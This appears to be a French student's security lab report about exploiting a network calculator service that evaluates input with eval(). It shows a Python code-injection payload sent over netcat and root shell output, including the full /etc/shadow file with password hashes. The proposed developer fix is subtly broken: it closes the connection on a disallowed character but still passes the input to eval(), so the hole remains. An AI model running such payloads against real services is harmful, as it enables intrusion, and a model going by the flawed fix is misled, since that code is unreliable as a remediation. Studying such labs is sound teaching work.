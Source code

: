 # TP5 SECU : Exploit, pwn, fix

## 1. Reconnaissance

**🌞 Déterminer**

    Wireshark

**🌞 Scanner le réseau**

    [l3z@localhost ~]$ sudo nmap -sS -p 13337 127.0.0.1
    [sudo] password for l3z: 
    Starting Nmap 7.92 ( https://nmap.org ) at 2025-03-07 10:36 CET
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.00013s latency).

    PORT      STATE  SERVICE
    13337/tcp closed unknown

    Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds


**🌞 Connectez-vous au serveur**

    c'est une calculatrice qui utilise l'ip 127.0.0.1 et le port 13337

## 2. Exploit

**🌞 Injecter du code serveur**

    [l3z@localhost ~]$ netcat 193.250.183.197 12781
    d
    Hello__import__('os').system('sleep 5')
    0

**3. PWN**

    [root@localhost l3z]# cat /etc/shadow
    root:!$6$9z/LzYxayrhGIEiy$GjDVk/p2V2lcSPUtuzyas/F93Fjq0JbqMonJ0IO.iarGmCsX5.A01NLXxH0ecDsQe8jZBQVt6h1ctQFax5D0k0::0:99999:7:::
    bin:*:19820:0:99999:7:::
    daemon:*:19820:0:99999:7:::
    adm:*:19820:0:99999:7:::
    lp:*:19820:0:99999:7:::
    sync:*:19820:0:99999:7:::
    shutdown:*:19820:0:99999:7:::
    halt:*:19820:0:99999:7:::
    mail:*:19820:0:99999:7:::
    operator:*:19820:0:99999:7:::
    games:*:19820:0:99999:7:::
    ftp:*:19820:0:99999:7:::
    nobody:*:19820:0:99999:7:::
    tss:!!:20151::::::
    systemd-coredump:!!:20151::::::
    dbus:!!:20151::::::
    sssd:!!:20151::::::
    chrony:!!:20151::::::
    sshd:!!:20151::::::
    l3z:$6$jUgGI2dbV.8RaVVN$Zxk7EYCSGpVbr6qBg2TjWZ22PQ5FESt9oaQKD0zB92ORd10ottvvyg1ecmrS01/.a.HZh.aPDSOFPFt2RiGiB0::0:99999:7:::

##

    [root@localhost l3z]# cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
    nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
    tss:x:59:59:Account used for TPM access:/:/usr/sbin/nologin
    systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    sssd:x:998:996:User for sssd:/:/sbin/nologin
    chrony:x:997:995:chrony system user:/var/lib/chrony:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/usr/sbin/nologin
    l3z:x:1000:1000:l3z:/home/l3z:/bin/bash
    
##

       [root@localhost l3z]#  cat server.py
        cat server.py
        import socket

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        s.bind(('0.0.0.0', 13337))  

        s.listen(1)
        conn, addr = s.accept()

        while True:

            try:
                # On reçoit la string Hello du client
                data = conn.recv(1024)
                if not data: break
                print(f"Données reçues du client : {data}")

                conn.send("Hello".encode())

                # On reçoit le calcul du client
                data = conn.recv(1024)
                data = data.decode().strip("\n")

                # Evaluation et envoi du résultat
                res  = eval(data)
                conn.send(str(res).encode())
                
            except socket.error:
                print("Error Occured.")
                break

        conn.close()

##

    [root@localhost l3z]#  systemctl list-units -t service
    systemctl list-units -t service
    UNIT                               LOAD   ACTIVE SUB     DESCRIPTION
    auditd.service                     loaded active running Security Auditing Service
    calculatrice.service               loaded active running Super calculatrice réseau
    chronyd.service                    loaded active running NTP client/server
    crond.service                      loaded active running Command Scheduler
    dbus-broker.service                loaded active running D-Bus System Message Bus
    dracut-shutdown.service            loaded active exited  Restore /run/initramfs on shutdown
    firewalld.service                  loaded active running firewalld - dynamic firewall daemon
    getty@tty1.service                 loaded active running Getty on tty1
    kdump.service                      loaded active exited  Crash recovery kernel arming
    kmod-static-nodes.service          loaded active exited  Create List of Static Device Nodes
    lm_sensors.service                 loaded active exited  Hardware Monitoring Sensors
    lvm2-monitor.service               loaded active exited  Monitoring of LVM2 mirrors, snapshots etc. using dmeventd or progress polling
    netdata.service                    loaded active running Real time performance monitoring
    NetworkManager-wait-online.service loaded active exited  Network Manager Wait Online
    NetworkManager.service             loaded active running Network Manager
    nis-domainname.service             loaded active exited  Read and set NIS domainname from /etc/sysconfig/network
    rsyslog.service                    loaded active running System Logging Service
    sshd.service                       loaded active running OpenSSH server daemon
    systemd-boot-update.service        loaded active exited  Automatic Boot Loader Update
    systemd-journal-flush.service      loaded active exited  Flush Journal to Persistent Storage
    systemd-journald.service           loaded active running Journal Service
    systemd-journald@netdata.service   loaded active running Journal Service for Namespace netdata
    systemd-logind.service             loaded active running User Login Management
    systemd-network-generator.service  loaded active exited  Generate network units from Kernel command line
    systemd-random-seed.service        loaded active exited  Load/Save OS Random Seed
    systemd-remount-fs.service         loaded active exited  Remount Root and Kernel File Systems
    systemd-sysctl.service             loaded active exited  Apply Kernel Variables
    systemd-tmpfiles-setup-dev.service loaded active exited  Create Static Device Nodes in /dev
    systemd-tmpfiles-setup.service     loaded active exited  Create Volatile Files and Directories
    systemd-udev-trigger.service       loaded active exited  Coldplug All udev Devices
    systemd-udevd.service              loaded active running Rule-based Manager for Device Events and Files
    systemd-update-utmp.service        loaded active exited  Record System Boot/Shutdown in UTMP
    systemd-user-sessions.service      loaded active exited  Permit User Sessions
    user-runtime-dir@1000.service      loaded active exited  User Runtime Directory /run/user/1000
    user@1000.service                  loaded active running User Manager for UID 1000

## II. Remédiation

**🌞 Proposer une remédiation dév**

    Évitez d'utiliser eval() dans le code, car cela permet d'exécuter du code Python arbitraire au lieu de simplement effectuer un calcul.
    Ajoutez des conditions côté serveur pour filtrer les entrées, par exemple :

    import socket
    import re

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(('0.0.0.0', 13337))  

    s.listen(1)
    conn, addr = s.accept()

    while True:

        try:
            # On reçoit la string Hello du client
            data = conn.recv(1024)
            if not data: break
            print(f"Données reçues du client : {data}")

            conn.send("Hello".encode())

            # On reçoit le calcul du client
            data = conn.recv(1024)
            data = data.decode().strip("\n")
            # condition ajouté
            for i in data:
                if i not in '0123456789 +-*':
                    conn.close()
            # Evaluation et envoi du résultat
            
            res  = eval(data)
            conn.send(str(res).encode())
            
            
        except socket.error:
            print("Error Occured.")
            break

    conn.close()

**🌞 Proposer une remédiation système**

    Ne pas exécuter le serveur avec les privilèges root pour des raisons de sécurité.
    
    S'assurer que le serveur ne transmet aucune information vers l'extérieur en bloquant toutes les connexions sortantes, sauf celles strictement nécessaires à son fonctionnement.
